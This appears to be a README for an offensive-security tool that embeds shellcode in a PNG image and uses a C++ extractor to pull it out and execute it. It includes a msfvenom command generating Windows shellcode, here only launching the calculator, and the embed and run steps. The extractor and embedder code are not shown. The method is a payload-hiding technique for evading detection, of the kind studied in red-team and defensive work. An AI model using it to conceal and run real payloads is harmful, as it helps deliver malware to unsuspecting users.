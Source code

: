 # Hide Shellcode in Image

This technique is originally introduced by [WafflesExploits](https://wafflesexploits.github.io/posts/Hide_a_Payload_in_Plain_Sight_Embedding_Shellcode_in_a_Image_file/#store-the-image-file-in-the-resources-section-rsrc-of-a-binary-file).  
Accorind to the article above, there are two methods for execution (extraction) but in here we use the simpler method. If you're interested in another method, read the article.

## Usage

### 1. Create a Shellcode

```sh
msfvenom -p windows/x64/exec CMD=calc.exe -f raw -b '0x00' -o payload.bin
```

### 2. Embed the Shellcode into an Image

For example, we embed the shellcode to the `dog.png` image file.

```sh
python3 embedder.py dog.png payload.bin dog_embedded.png
```

After that, the `dog_embedded.png` file is generated.

### 3. Prepare Extractor

Modify the `extractor.cpp` to replace the following constant values:

- `EMBEDDED_IMAGE_PATH` (e.g. `dog_embedded.png`)
- `ORIGINAL_IMAGE_SIZE` (e.g. the size of the `dog.png`)

Then build the C++ project in Visual Studio.

### 4. Extract the Shellcode from the Image, and Execute It

Using this C++ program, we can do that:

```sh
.\extractor
```

If all goes well, the Calculator will spawn.